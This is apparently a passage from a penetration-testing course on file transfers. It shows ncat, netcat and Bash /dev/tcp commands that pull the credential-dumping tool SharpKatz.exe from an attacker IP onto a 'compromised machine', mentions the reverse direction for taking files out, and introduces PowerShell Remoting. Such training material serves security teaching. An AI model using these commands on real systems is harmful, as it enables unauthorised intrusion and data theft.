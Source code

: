 #### Compromised Machine Connect to Ncat to Receive the File

  ```shell-session
victim@target:~$ # Example using Ncat
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html).

Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.

#### NetCat - Sending File as Input to Netcat

```shell-session
James Pearson@htb[/htb]$ # Example using Original Netcat
James Pearson@htb[/htb]$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

#### Ncat - Sending File as Input to Netcat

```shell-session
James Pearson@htb[/htb]$ # Example using Ncat
James Pearson@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

#### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File

```shell-session
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

**Note:** The same operation can be used to transfer files from the compromised host to our Pwnbox.

---

## PowerShell Session File Transfer

We already talk about doing file transfers with PowerShell, but there may be scenarios where HTTP, HTTPS, or SMB are unavailable. If that's the case, we can use [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2), aka WinRM, to perform file transfer operations.

[PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) allows us to execute scripts or commands on a remote computer using PowerShell sessions. Administrators commonly use PowerShell Remoting to manage remote computers in a network, and we can also use it for file transfer operations. By default, enabling PowerShell remoting creates both an HTTP and an HTTPS listener. The listeners run on default ports TCP/5985 for HTTP and TCP/5986 for HTTPS.

To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the `Remote Management Users` group, or have explicit permissions for PowerShell Remoting in the session configuration. Let's create an example and transfer a file from `DC01` to `DATABASE01` and vice versa.
